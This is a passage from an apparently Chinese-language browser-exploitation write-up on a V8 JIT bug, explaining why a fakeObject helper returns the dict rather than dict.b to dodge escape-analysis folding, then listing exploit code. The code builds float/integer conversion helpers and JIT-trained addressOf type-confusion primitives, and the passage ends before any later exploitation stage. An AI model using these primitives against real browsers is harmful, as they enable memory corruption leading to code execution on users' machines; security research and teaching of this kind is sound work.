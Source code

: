 
在构造fakeObject原语时，在`fakeObject_opt`时，我们没有直接返回`dict.b`而是返回`dict`对象，因为我们在前一句有`dict.b = addr;`，在与`return`之间没有进行其他逃逸操作，因此直接返回`dict.b`会在`Escape Analyse`阶段折叠掉。<br>
构造好这两个原语以后，就是常规利用了<br>
exp

```
var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

function p64f(value1,value2) `{`
   dv.setUint32(0,value1,true);
   dv.setUint32(0x4,value2,true);
   return dv.getFloat64(0,true);
`}`

function u64_l(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getUint32(0,true);
`}`

function u64_h(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getUint32(4,true);
`}`

function addressOf_opt(dict,f) `{`
   var x = dict.a;
   f(dict);
   return dict.a;
`}`

var double_dict = `{`a:1.1`}`;

for (var i=0;i&lt;0x20000;i++) `{`
   addressOf_opt(double_dict,(o)=&gt;1);
   addressOf_opt(double_dict,(o)=&gt;2);
   addressOf_opt(double_dict,(o)=&gt;3);
`}`

function addressOf(obj) `{`
   var x = addressOf_opt(double_dict,(o)=&gt;`{`o.a = obj`}`);
   return [u64_h(x),u64_l(x) - 0x1];
`}`


function addressOf2_opt(dict,f) `{`
   var x = dict.a2;
   f(dict);
   return dict.a2;
`}`

var double_dict2 = `{`a2:1.1`}`;

for (var i=0;i&lt;0x20000;i++) `{`
   addressOf2_opt(double_dict2,(o)=&gt;1);
   addressOf2_opt(double_dict2,(o)=&gt;2);
   addressOf2_opt(double_dict2,(o)=&gt;3);
`}`

function addressOf2(obj) `{`
   var x = addressOf2_opt(double_dict2,(o)=&gt;`{`o.a2 = obj`}`);
   return [u64_h(x),u64_l(x) - 0x1];
`}`

```